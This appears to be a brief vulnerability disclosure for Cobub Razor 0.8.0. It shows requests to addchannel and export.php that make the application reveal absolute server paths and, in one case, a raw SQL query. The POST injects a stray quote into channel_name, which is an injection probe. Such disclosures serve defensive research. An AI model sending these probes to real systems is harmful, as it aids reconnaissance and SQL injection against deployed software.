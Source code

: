 
## This physical path Leakage exists in Western Bridge Cobub Razor 0.8.0 via a /index.php?/manage/channel/addchannel and /export.php request. ##

The pages leaked the absolute path:  
http://localhost/index.php?/manage/channel/addchannel  
POST method:channel_name=test"&platform=1  
Result:
```
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '123"' at line 3

select * from razor_channel where (user_id = "1" or type="system") and active=1 and channel_name="test" " and platform="123"

Filename: D:\phpStudy\PHPTutorial\WWW\system\database\DB_driver.php

Line Number: 331
```  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_lackage_2.png)
http://localhost/export.php  
GET method  
Result:
```
Notice: Undefined index: type in D:\phpStudy\PHPTutorial\WWW\export.php on line 22

Notice: Undefined index: svg in D:\phpStudy\PHPTutorial\WWW\export.php on line 23

Notice: Undefined index: filename in D:\phpStudy\PHPTutorial\WWW\export.php on line 24

Notice: Undefined variable: ext in D:\phpStudy\PHPTutorial\WWW\export.php on line 52

Notice: Undefined variable: ext in D:\phpStudy\PHPTutorial\WWW\export.php on line 94
Invalid type
```
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_lackage_1.png)
